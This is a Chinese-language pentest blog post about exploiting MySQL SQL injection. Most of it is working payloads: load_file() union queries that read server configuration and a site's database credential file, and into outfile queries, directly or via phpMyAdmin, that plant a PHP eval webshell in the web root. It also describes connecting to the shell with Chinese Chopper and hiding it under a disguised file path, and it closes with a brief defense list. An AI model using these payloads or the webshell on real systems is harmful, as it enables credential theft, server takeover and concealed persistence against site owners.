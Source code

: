+++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["注入"]
title = "SQL注入之MySQL函数利用"
topics = ["Pentest"]

+++

### 0x00 load_file()
* 条件:

> ```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径

    > ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  

    > ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件

    > ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile
* 条件：

> ```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法

> 当知道路径时，可以直接用?id=1 union select "<?php @eval($_POST['c']);?>" into outfile("C:/phpStudy/WWW/a.php")

* 其他方法 
    * 登陆phpMyAdmin  
    
    > ```
    use test;  选择数据库为test
    create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
    insert into aaa values("<?php @eval($_POST['c']);?>");   在aaa中插入一条数据<?php @eval($_POST['c']);?>
    select * from aaa into outfile 'C:/phpStudy/WWW/a.php';  将aaa中的数据导出到文件a.php
    ```

    * localhost:80/a.php能访问  
    
    > ```
    drop aaa;  //删除建立的表
    ```

    * 然后菜刀连接  

    > ```
    1. 菜刀连接：  
        C:\phpStudy\WWW\a.php
    2. 更改shell的名字并将shell放在较隐蔽的地方：  
        C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
    ```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件